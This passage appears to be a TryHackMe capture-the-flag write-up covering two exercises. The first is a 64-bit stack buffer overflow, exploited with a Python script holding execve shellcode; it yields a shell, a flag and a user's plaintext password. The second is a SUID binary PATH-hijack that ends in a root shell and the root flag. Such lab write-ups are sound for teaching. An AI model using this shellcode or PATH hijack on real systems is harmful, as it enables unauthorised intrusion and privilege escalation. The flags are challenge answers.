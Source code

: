 ```py
from struct import pack
#buf="\xcc"*8
buf="\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
payload="\x90"*400
payload += buf
payload += "A" * (208 -len(buf))
payload += "B" *8
payload += pack("<Q", 0x7fffffffe300)

print payload
```

```
des@THM_exploit:~$ python exploit.py >testdes@THM_exploit:~$ (cat test;cat) | ./bof Enter some string:
id
uid=1000(kel) gid=1001(des) groups=1001(des)
pwd
/home/des
cd /home/kel
ls -la
total 52
drwx------ 4 kel  kel  4096 Jan 17  2020 .
drwxr-xr-x 6 root root 4096 Jan 17  2020 ..
-rw------- 1 root root   16 Jan 12  2020 .bash_history
-rw-r--r-- 1 kel  kel   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 kel  kel  3771 Apr  4  2018 .bashrc
drwx------ 2 kel  kel  4096 Jan 12  2020 .cache
drwx------ 3 kel  kel  4096 Jan 12  2020 .gnupg
-rw-r--r-- 1 kel  kel   807 Apr  4  2018 .profile
-rwsr-xr-x 1 root root 8392 Jan 17  2020 exe
-rw-r--r-- 1 root root   76 Jan 17  2020 exe.c
-rw------- 1 kel  kel   118 Jan 17  2020 flag.txt
cat flag.txt
You flag is THM{buffer_overflow_in_64_bit}

The user credential
username: kel
password: kelvin_74656d7065726174757265
```

1. What is the contents of /home/kel/flag.txt?

`THM{buffer_overflow_in_64_bit}`

## Task 4 PATH Manipulation :: Binary 3

Get the root flag from the root directory. This will require you to understand how the PATH variable works.

```
cd /tmp
ls
systemd-private-0f779aad101b42e0b596cddf443aa30f-systemd-resolved.service-qGxTHc  systemd-private-0f779aad101b42e0b596cddf443aa30f-systemd-timesyncd.service-Aj3keJ
echo "/bin/bash" > ps
chmod +x ps
export PATH=/tmp:$PATH
cd /home/kel
./exe
id
uid=0(root) gid=0(root) groups=0(root),1001(des)
cat /root/root.txt
The flag: THM{SUID_binary_and_PATH_exploit}. 
```